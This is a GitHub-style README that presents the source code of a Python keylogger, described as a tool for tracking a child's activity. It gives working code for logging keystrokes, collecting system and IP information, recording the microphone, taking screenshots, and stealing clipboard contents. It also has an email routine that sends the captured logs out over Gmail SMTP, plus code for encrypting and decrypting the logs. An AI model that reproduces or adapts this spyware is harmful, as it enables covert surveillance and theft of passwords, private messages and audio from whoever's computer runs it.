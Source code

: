 # Advanced_Keylogger
# AIM  
To track kids activity including keystrokes, audio, screenshots, clipboard data and System information

# COMPONENTS REQUIRED  
1. Pycharm IDE
2. Downloading necessary packages/libraries:
   * email
   * smtplib
   * socket
   * platform
   * win32clipboard
   * pynput
   * time
   * os
   * scipy
   * sounddevice
   * cryptography
   * requests
   * PIL
3. System with minimum 4GB RAM

# PROGRAM  

## Keylogger Functionality

    count = 0
    keys = []

    def on_press(key):
        global keys,count,currentTime

        print(key)
        keys.append(key)
        count+=1
        currentTime = time.time()

        if count >= 1: # to continously write keys to the log file
            count = 0
            write_file(keys)
            keys = []

    def write_file(keys):
        with open(file_path + extend + keys_information, "a") as f:
            for key in keys:
                k = str(key).replace("'", "")
                if k.find("space") > 0:
                    f.write('\n')
                    f.close()
                elif k.find("Key") == -1:
                    f.write(k)
                    f.close()

    def on_release(key): # To exit the keylogger
        if key == Key.esc:
            return False
        if currentTime > stoppingTime:
            return False


    with Listener(on_press=on_press, on_release=on_release) as listener:
            listener.join()

  ## System Information Retrival

    def computer_information():
        with open(file_path + extend + system_information, "a") as f:
            hostname = socket.gethostname()
            IPAddr = socket.gethostbyname(hostname)
            try:
                public_ip = get("https://api.ipify.org").text
                f.write("Public IP Address: " + public_ip)

            except Exception:
                f.write("Couldn't get Public IP Address (most likely max query")

            f.write("Processor: " + (platform.processor()) + '\n')
            f.write("System: " + platform.system() + " " + platform.version() + '\n')
            f.write("Machine: " + platform.machine() + "\n")
            f.write("Hostname: " + hostname + "\n")
            f.write("Private IP Address: " + IPAddr + "\n")

    computer_information()

  ## Microphone Functionality

    def microphone():
      fs = 44100
      seconds = microphone_time
  
      myrecording = sd.rec(int(seconds * fs),samplerate=fs, channels=2)
      sd.wait()
  
      write(file_path + extend + audio_information,fs,myrecording)
  
    microphone()
  
  ## Screenshot Functionality

    def screenshot():
      im = ImageGrab.grab()
      im.save(file_path+  extend + screenshot_information)
  
    screenshot()

  ## Clipboard Functionality

    def copy_clipboard():
      with open(file_path + extend + clipboard_information, "a") as f:
          try:
              win32clipboard.OpenClipboard()
              pasted_data = win32clipboard.GetClipboardData()
              win32clipboard.CloseClipboard()
  
              f.write("Clipboard Data: \n" + pasted_data)
  
          except:
              f.write("Clipboard could be not be copied")
  
    copy_clipboard()
  
  
  ## Email Functionality

     def send_email(filename,attachment,toaddr):
  
      fromaddr = email_address
      msg = MIMEMultipart()
      msg['From'] = fromaddr
      msg['To'] = toaddr
      msg['Subject'] = "Log File"
      body = "body of the mail"
      msg.attach(MIMEText(body,'plain'))
  
      filename = filename
      attachment = open(attachment,'rb')
  
      p = MIMEBase('application','octet-stream')
      p.set_payload((attachment).read())
      encoders.encode_base64(p)
      p.add_header('Content-Disposition', "attachment; filename= %s" % filename)
  
      msg.attach(p)
  
      s = smtplib.SMTP('smtp.gmail.com',587)
      s.starttls()
      s.login(fromaddr,password)
      text = msg.as_string()
      s.sendmail(fromaddr,toaddr,text)
      s.quit()

 ## Generating Keys  

    from cryptography.fernet import Fernet
    
    key = Fernet.generate_key()
    file = open("encryption_key.txt","wb")
    file.write(key)
    file.close()

 ## Decrypting Files

    from cryptography.fernet import Fernet
    
    key ="3Qg7tgyEwaaCBXtE2DBVf3y2zH9BuRuBiWGloJTliMc="
    
    keys_information_e = "e_key_log.txt"
    system_information_e = "e_sys_info.txt"
    clipboard_information_e = "e_clipboard.txt"
    
    encrypted_files = [system_information_e,clipboard_information_e,keys_information_e]
    count = 0
    
    for decrypted_files in encrypted_files:
    
        with open(encrypted_files[count], 'rb') as f:
            data = f.read()
    
        fernet = Fernet(key)
        decrypted = fernet.decrypt(data)
    
        with open(encrypted_files[count], 'wb') as f:
            f.write(decrypted)
    
        count += 1

# RESULT
        A python program that tracks the kid's activity including keystrokes, audio, screenshots, clipboard data and System information have been completed and executed successfully.
